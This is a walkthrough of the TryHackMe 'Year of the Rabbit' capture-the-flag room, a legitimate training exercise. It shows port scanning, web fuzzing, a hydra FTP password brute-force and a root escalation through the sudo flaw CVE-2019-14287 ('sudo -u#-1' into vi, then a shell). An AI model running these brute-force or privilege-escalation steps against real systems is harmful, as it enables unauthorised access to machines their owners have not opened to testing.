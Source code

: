 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Year of the Rabbit
# DESCRIPTION       . Time to enter the warren...
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/yearoftherabbit
```

```
sudo nmap -sSVC -T5 10.10.130.97 -p- -oN year
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a08b6b7809390332ea524c203e82ad60 (DSA)
|   2048 df25d0471f37d918818738763092651f (RSA)
|   256 be9f4f014a44c8adf503cb00ac8f4944 (ECDSA)
|_  256 dbb1c1b9cd8c9d604ff198e299fe0803 (ED25519)

80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- There's nothing much I could do with this information, so I fuzzed the webserver using `ffuf`.

```
ffuf -u http://10.10.130.97/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- Inside `/assets`, we have `RickRolled.mp4` and a `.css` file.

- The CSS file reveals the next step of the challenge

```
Nice to see someone checking the stylesheets.
Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- If we navigate to `ip/sup3r_s3cr3t_fl4g.php`, we get the following message: `Word of advice... Turn off your javascript...` and then we're redirected to the next [hint](https://www.youtube.com/watch?v=dQw4w9WgXcQ).

- I didn't wanted to bother turning off JS on my browser just yet. I tried intercepting the request in Burp Suite, and, if we capture the response, there is an additional link between `sup3r_s3cr3t_fl4g.php` and the final redirect.

```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
```

- Here, we can find a image called `Hot_Babe.png` 

- I had no other hints or directions so I assumed this is involves steganography, so I've downloaded the file.

- A simple `strings` reveals some useful information

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

- Let's find out which one it is

```
hydra -l ftpuser 10.10.130.97 -P passwords ftp -t 64 -I
```

- On the FTP server we find `Eli's Creds.txt` which is in brainfuck

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

```
User: eli
Password: DSpDiM1wAEwid
```

- After sshing to the box, we see the following mail:

```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```

- The path can be revealed using `find / -name s3cr3t 2>/dev/null`

```
ls -la

.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just {redacted}
Honestly!

Yours sincerely
   -Root
```

- So we got the password for gwendoline.. great ... security :) 

- The first flag is in `/home/gwendoline/user.txt`.

```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- This can be bypassed using [this](https://nvd.nist.gov/vuln/detail/CVE-2019-14287) vulnerability.

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

- After the vi opened the file, press `esc` and write `:!/bin/sh`.

- The last flag is in `/root/root.txt`